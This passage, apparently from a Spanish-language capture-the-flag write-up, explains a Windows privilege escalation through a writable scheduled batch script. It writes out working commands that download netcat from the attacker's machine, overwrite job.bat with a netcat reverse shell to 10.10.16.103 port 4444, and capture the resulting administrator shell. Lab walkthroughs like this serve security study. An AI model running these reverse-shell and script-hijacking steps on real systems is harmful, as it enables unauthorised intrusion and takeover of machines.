 ```php
                X - execute/traverse
                DC - delete child
                RA - read attributes
                WA - write attributes
                
            - PErmisos herdados
            
		            (OI) - object inherit
                (CI) - container inherit
                (IO) - inherit only
                (NP) - don't propagate inherit
                (I) - permission inherited from parent container

					
       
```

La manera de escalar privilegios es, aprovechando que el script puede modificarse, emitir una rever shell a nuestro equipo con permisos de administrador

Para ello descargamos el netcat para la maquina victima y lo compartimos con python desde la nuestra

```bash
# Nuestra maquina
wget https://github.com/rahuldottech/netcat-for-windows/releases/download/1.12/nc64.exe
❯ python3 -m http.server 8000

#Maquina victima : 
# Desde powershell obtenemos el ejecutable de netcat de nuestra maquina

PS C:\Log-Management> wget http://10.10.16.103/nc64.exe -outfile nc.exe

# Modificamos el contenido para crear la rever. Con esto le decimos que dentro sustitya el contenido de job.bat por la revershell con permsios de admin (-e)

daniel@MARKUP c:\Log-Management>echo C:\Log-Management\nc.exe -e cmd.exe 10.10.16.103 4444 > C:\Log-Management\job.bat

# Nos ponemos en escucha en nustra maquina

sudo nc -lvnp 4444

# Esperamos un tiempo a que se ejecue en la maquina victima y obtenemos la rever 

listening on [any] 4444 ...
connect to [10.10.16.103] from (UNKNOWN) [10.129.95.192] 49684
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BA76-B4E3

 Directory of C:\Users\Administrator\Desktop

03/05/2020  06:33 AM    <DIR>          .
03/05/2020  06:33 AM    <DIR>          ..
03/05/2020  06:33 AM                70 root.txt
               1 File(s)             70 bytes
               2 Dir(s)   7,374,331,904 bytes free

```